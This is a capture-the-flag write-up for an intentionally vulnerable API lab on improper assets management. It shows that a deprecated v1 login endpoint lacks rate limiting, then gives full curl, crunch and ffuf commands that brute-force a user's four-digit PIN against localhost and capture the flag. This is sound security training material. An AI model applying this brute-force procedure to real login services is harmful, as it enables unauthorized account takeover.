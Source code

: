 # Improper Assets Management
> Hey Good News!!!!! We just launched our v2 API :)

# Tools Used:
```
curl 8.8.0 (x86_64-pc-linux-gnu)
crunch version 3.6
ffuf 2.1.0-dev
cat (GNU coreutils) 9.4
```

# Login
## POST /vapi/api9/v2/user/login

Lets try to send a request with the example username provided (richardbranson) to see the response
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"richardbranson\",\x0d\x0a    \"pin\":\"****\"\x0d\x0a}' \
    $'http://localhost/vapi/api9/v2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 18:32:26 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 18:32:26 GMT
X-RateLimit-Limit: 5
X-RateLimit-Remaining: 4
```
- Observe that there is rate limiting
	- This means we only have 5 tries to get the correct login, with 4 tries remaining.

Lets see if the previous version (v1) of the API is still available
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' -H $'Host: localhost' \
    --data-binary $'{\x0d\x0a    \"username\":\"richardbranson\",\x0d\x0a    \"pin\":\"****\"\x0d\x0a}' \
    $'http://localhost/vapi/api9/v1/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Sun, 30 Jun 2024 18:34:24 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Content-Type: text/html; charset=UTF-8
Cache-Control: no-cache, private
Date: Sun, 30 Jun 2024 18:34:24 GMT
```
- Observe that the old version of the endpoint is still accessible, and without rate limiting

Since there is no rate limiting in the old version, we can try to brute force the 4 digit pin.

Create a pin wordlist using crunch.
```bash
crunch 4 4 1234567890 -o /home/kali/Desktop/pin.txt
```

Brute force the pin for the user, richardbranson and filter for any responses that has no data, since all the responses are returning with 200.
```bash
ffuf -w /home/kali/Desktop/pin.txt -X POST -u http://localhost/vapi/api9/v1/user/login/ -H "Content-Type: application/json" -d '{"username": "richardbranson", "pin": "§§"}' -fs 0 -mode sniper -od /home/kali/Desktop/ffuf_responses -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api9/v1/user/login/
 :: Wordlist         : FUZZ: /home/kali/Desktop/pin.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"username": "richardbranson", "pin": "§§"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 83, Words: 1, Lines: 1, Duration: 2151ms]
| URL | http://localhost/vapi/api9/v1/user/login/
| RES | 10f7b97e3dde7382548af0e4f0b8c8b6
    * FUZZ: 1655

:: Progress: [10000/10000] :: Job [1/1] :: 18 req/sec :: Duration: [0:09:04] :: Errors: 0 ::
```

View the matched fuff response file:
```bash
cat /home/kali/Desktop/ffuf_responses/10f7b97e3dde7382548af0e4f0b8c8b6
```
```
POST /vapi/api9/v1/user/login/ HTTP/1.1
Host: localhost
User-Agent: Fuzz Faster U Fool v2.1.0-dev
Content-Length: 45
Content-Type: application/json
Accept-Encoding: gzip

{"username": "richardbranson", "pin": "1655"}
---- ↑ Request ---- Response ↓ ----

HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache, private
Content-Type: application/json
Date: Sun, 30 Jun 2024 18:55:52 GMT
Date: Sun, 30 Jun 2024 18:55:52 GMT
Host: localhost
X-Powered-By: PHP/7.4.33

{"id":1,"username":"richardbranson","accbalance":"flag{api9_81e306bdd20a7734e244}"}
```

API9 Flag
```
flag{api9_81e306bdd20a7734e244}
```

References:
https://owasp.org/API-Security/editions/2019/en/0xa9-improper-assets-management/
https://owasp.org/API-Security/editions/2023/en/0xa9-improper-inventory-management/
